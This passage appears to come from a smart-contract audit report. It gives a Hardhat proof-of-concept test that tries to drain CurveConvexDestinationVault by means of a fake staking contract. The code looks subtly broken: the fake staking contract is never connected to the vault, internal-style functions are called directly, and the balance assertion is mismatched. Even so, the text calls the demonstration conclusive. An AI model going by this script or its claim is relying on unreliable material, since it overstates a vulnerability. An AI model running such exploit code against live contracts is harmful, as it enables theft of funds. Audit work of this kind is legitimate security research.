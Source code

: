 > **POC script**:

```javascript
const { ethers, waffle } = require("hardhat");
const { expect } = require("chai");

describe("Exploit CurveConvexDestinationVault", function () {
    let vault, fakeStake, attacker;

    before(async function () {
        [attacker, ...rest] = await ethers.getSigners();

        const Vault = await ethers.getContractFactory("CurveConvexDestinationVault");
        vault = await Vault.deploy();
        const FakeStake = await ethers.getContractFactory("fakeStaking");
        fakeStake = await FakeStake.deploy(attacker.address);

        await vault.initialize();
    });

    it("Exploit the vault", async function () {
        const initialBalance = await ethers.provider.getBalance(attacker.address);

        await vault._onDeposit(ethers.utils.parseEther("1"));
        await vault._ensureLocalUnderlyingBalance(ethers.utils.parseEther("1"));
        await vault._collectRewards();

        const finalBalance = await ethers.provider.getBalance(attacker.address);
        expect(finalBalance).to.be.greaterThan(initialBalance); 
    });
});
```

This POC conclusively illustrates the inherent risks of integrating a rogue staking contract into the system. Proper validation techniques are essential to safeguard the protocol's integrity.
